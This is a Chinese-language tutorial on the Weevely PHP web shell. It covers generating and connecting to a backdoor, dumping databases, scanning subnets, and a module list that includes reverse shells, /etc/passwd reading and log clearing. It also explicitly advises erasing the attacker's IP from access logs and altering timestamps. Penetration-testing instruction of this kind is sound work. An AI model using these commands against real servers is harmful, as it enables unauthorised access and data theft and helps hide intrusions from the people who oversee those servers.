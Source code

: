 ## 简介：

工具主页：`https://www.kali.org/tools/weevely/`

`Weevely`是一个专门为web渗透攻击设计的web shell,由于是用python语言编写的工具，因此支持跨平台可以 任何有python环境的系统上使用。和Windows系统中一款类似的工具(中国菜刀)一样。
使用的是比较主流的base64加密结合字符串变形技术，后门中所使用的函数均是常用的字符串处理函数，有很好的隐蔽性。
weevely具有生成shell文件、连接后台、资源搜索、信息探测、文件管理操作、错误配置审计、暴力破解、数据库操作、端口扫描等功能

## 安装

在kali中已经默认安装了weevely 其他类似系统安装执行下面命令即可。
```
apt-get install weevely -y
```
## 基础用法

### 生成web shell
```
weevely generate <密码> <文件存储目录>
weevely generate mypassword123 /root/shell.php
```
### 连接web shell
```
weevely <URL> <password> [cmd]
weevely http://192.168.56.102/shell.php mypassword123
```

## 高级用法(模块)

当获取到目标系统的weevely shell后,我们通过help可以查看文件相关的模块。
通过这些文件操作模块，可以 对目标服务器进行文件的打包、上传、 下载、删除、在线修改、复制，还可以通过HTTPfs挂在远程文件系统。
通过这些操作，不仅可以修改目标服务器上的源代码，还可以清除或修改我们的操作日志。比如将access log中有关 攻击机IP地址的信息删除，或者算改日志中的时间戳等等。

### 查看命令帮助

```
help
```
### 查看系统信息
```
system_info
```
### 枚举用户文件

枚举用户目录下且有权限的文件,也可用来加载字典。这里我们可以通过
`:audit_ filesystem`,来查看都支 持搜索哪些类型的用户文件。

### 连接数据库
```
sql_console -u root -p 12345678
```
### 对数据库拖库``
```
sql_dump -dbms mysql tianyuan root 12345678
```
### 子网扫描
```
net_scan 192.168.1.1/24 80,3306 -print
```
### 模块大全

```
:backdoor_reversetcp          执行反向TCP shell
:backdoor_tcp                 在TCP端口产生一个壳
:file_cp                      复制单个文件
:file_grep                    打印线与多个文件中的模式匹配
:file_zip                     压缩或展开ZIP文件
:file_bzip2                   压缩或展开Bzip2文件
:file_tar                     压缩或展开tar文件
:file_gzip                    压缩或展开Gzip文件
:file_mount                   使用httpfs安装远程文件系统
:file_cd                      更改当前工作目录
:file_clearlog                从文件中删除字符串
:file_read                    从远程文件系统中读取远程文件
:file_download                从远程文件系统下载文件
:file_touch                   更改文件时间戳
:file_ls                      列表目录内容
:file_enum                    检查存在列表列表的存在和权限
:file_upload                  将文件上传到远程文件系统
:file_find                    查找具有给定名称和属性的文件
:file_check                   获取文件的属性和权限
:file_edit                    在本地编辑器上编辑远程文件
:file_webdownload             下载URL.
:file_upload2web              将文件自动上传到Web文件夹并获得相应的URL
:file_rm                      删除远程文件
:shell_php                    执行php命令
:shell_sh                     执行shell命令
:shell_su                     执行su的命令
:sql_dump                     多DBMS MySqldump更换
:sql_console                  执行SQL查询或运行控制台
:bruteforce_sql               BruteForce SQL数据库
:net_ifconfig                 获取网络接口地址
:net_mail                     发送邮件
:net_curl                     执行类似卷曲的HTTP请求。
:net_scan                     TCP端口扫描。
:net_proxy                    运行本地代理以通过目标浏览HTTP / HTTPS浏览。
:net_phpproxy                 在目标上安装PHP代理。
:system_info                  查看系统信息
:system_extensions            收集PHP和WebServer扩展列表。
:system_procs                 列出运行进程。
:audit_phpconf                查看PHP配置文件
:audit_suidsgid               查找suid或sgid标志的文件。
:audit_disablefunctionbypass  旁路禁用与mod_cgi和.htaccess的限制。
:audit_filesystem             枚举用户文件。        
:audit_etcpasswd              用不同的技术读取/ etc / passwd。
```